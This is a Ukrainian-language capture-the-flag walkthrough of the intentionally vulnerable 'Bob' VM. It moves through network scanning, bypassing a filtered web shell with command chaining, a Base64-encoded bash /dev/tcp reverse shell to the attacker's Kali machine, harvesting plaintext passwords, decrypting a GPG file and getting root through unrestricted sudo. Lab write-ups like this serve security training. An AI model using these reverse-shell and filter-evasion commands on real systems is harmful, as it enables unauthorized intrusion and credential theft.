



### **Крок 1: Мережева розвідка (Enumeration)**

**1. Пошук IP-адреси жертви.**

Запустіть сканування локальної мережі, щоб дізнатися IP-адресу завантаженої VM Bob:  

```sh
netdiscover -r 192.168.160.0/24
```


**2. Сканування відкритих портів цільової машини.**

```sh
nmap -Pn -p- 192.168.160.200
nmap -sC -sV -Pn -p- 192.168.160.200
```


**Результат**:  
- Port 21: FTP (ProFTPD 1.3.5b)
- Port 80: HTTP (Apache web server httpd 2.4.25 (Debian))
- Port 25468: SSH (OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0))

**3. Дослідження вебсервера.**

Відкриваємо в браузері `http://192.168.160.200` і отримуємо:


Щоб знайти **приховані файли та директорії**, запускаємо **dirb**:  

```sh
dirb http://192.168.160.200
```


**Результат**:
- index.html
- robots.txt
- server-status

Переглядаємо `robots.txt`:


**Результат**:
- User-agent: *
- Disallow: /login.php
- Disallow: /dev_shell.php
- Disallow: /lat_memo.html
- Disallow: /passwords.html

Переглядаємо шляхи і звертаємо увагу на `http://192.168.160.200/dev_shell.php`


**User: Bob**

Спробуємо ввести команди bash, наприклад: `ls, cat, w, id, pwd` тощо. Частина з них заблокована фільтрами. Але деякі команди відпрацьовують коректно, та можемо встановити користувача від якого виконуються ці команди.

---

### **Крок 2: Обхід фільтрів та отримання Reverse Shell**

**1. Обхід фільтра веб-оболонки.**
```sh
Id
```
**Output**:
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
```sh
ls
```
**Output**:
Get out skid lol
```sh
id | ls  або whoami && ls
```
**Output**:
WIP.jpg
about.html
contact.html
dev_shell.php
dev_shell.php.bak
dev_shell_back.png
index.html
index.html.bak
lat_memo.html
login.html
news.html
passwords.html
robots.txt
school_badge.png


Оскільки пряме виконання команд обмежене, найкращий спосіб обходу — закодувати payload у `Base64`. Спробуємо отримати реверс-шел.

**2. Створення Reverse Shell.**

На машині Kali Linux відкриваємо порт для прослуховування:
```sh
nc -lvnp 4321
```
Для створення реверсшелу на боці цілі скористаємося ресурсом GutHub:
```sh
bash -c 'bash -i >& /dev/tcp/192.168.160.198/4321 0>&1'
```
Закодуємо цей рядок у Base64:
```sh
echo -n "bash -c 'bash -i >& /dev/tcp/192.168.160.198/4321 0>&1'" | base64
```
**Output**:
`YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2MC4xOTgvNDMyMSAwPiYxJw==`


**3. Стабілізація оболонки TTY.**

У терміналі netcat виконайте:
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

### **Крок 3: Пошук облікових даних (Enumeration всередині системи)**

**1. Робимо перевірку повноважень sudo**:
```sh
sudo -l
```


Переходимо в `/home` і перевіряємо користувачів:


**Результат:**
`bob  elliot  jc  seb`

Перевіряємо домашні директорії користувачів.


У директорії `/home/elliot` знаходиться файл `theadminisdumb.txt`. Перевіряємо його.
```sh
cat elliot/theadminisdumb.txt
```
```plaintext
elliot:theadminisdumb
```


Перевіряємо домашню директорію `bob`


У директорії `/home/bob` знаходиться файл `.old_passwordfile.html`. Перевіряємо його.
```sh
cat bob/.old_passwordfile.html
```


**Результат**:
```plaintext
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
```
Отримали вже 3 користувачів з паролями.
Пробуємо залогінитися під цими користувачами і отримати `root` доступ. 


Продовжуємо вивчати домашні директорії користувачів. Знаходимо файли `login.txt.gpg` та `staff.txt` в `/home/bob/Documents` та директорію `Secret`. Перевіряємо їх.
```sh
cat bob/Documents/staff.txt
```


Перевіряємо директорію Secret.


Знаходимо `notes.sh` в `/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here`. Перевіряємо його.
```sh
cd bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here
sh ./notes.sh
```


Перші літери – **HARPOCRATES**

Дивимося на `login.txt.gpg`.
```sh
cd ../../../..
cat login.txt.gpg
```


Розширення **.gpg** вказує на те, що файл зашифрований за допомогою **GPG (GNU Privacy Guard)** або **GnuPG**. Спроба відкрити цей файл вимагає ключ дешифрування. Використовуємо знайдене слово **HARPOCRATES** як пароль для розшифрування файлу `login.txt.gpg`.
```sh
gpg --batch --yes --passphrase 'HARPOCRATES' -o login.txt -d login.txt.gpg
```
Під користувачем `seb` отримуємо **Permission denied**.
Спробуємо під іншим. Під `jc` отримуємо облікові дані (пароль) користувача `bob`.
```plaintext
bob:b0bcat_
```


---

### **Крок 4: Підвищення привілеїв (Privilege Escalation)**

**1. Перехід на користувача bob.**

Маючи пароль, авторизуємося під користувачем `bob` в системі:

```sh
su bob
```


Перевіряємо, які команди Боб може виконувати з правами суперкористувача:
```sh
sudo -l
```


Система показує, що користувач `bob` має дозвіл на виконання всіх команд від імені `root` без додаткових обмежень **((ALL : ALL) ALL)**.
Виконуємо команду для запуску `root-оболонки`:
```sh
sudo su
```
Стали `root` користувачем.
Перевіряємо вміст кореневої директорії:
```sh
ls -lah /
```


Знаходимо файл `flag.txt`. Переглядаємо вміст і отримуємо фінальний резльтат
```sh
cat /flag.txt
```

